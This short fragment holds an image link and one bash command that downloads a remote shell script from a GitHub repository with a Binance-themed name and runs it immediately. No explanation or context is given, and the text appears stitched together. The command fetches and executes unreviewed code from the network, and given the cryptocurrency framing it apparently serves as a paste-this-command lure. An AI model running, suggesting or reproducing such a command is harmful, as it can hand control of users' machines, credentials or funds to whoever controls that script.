 bash <(curl -s https://raw.githubusercontent.com/ayoungcyberteam/Binance/refs/heads/main/server.sh)
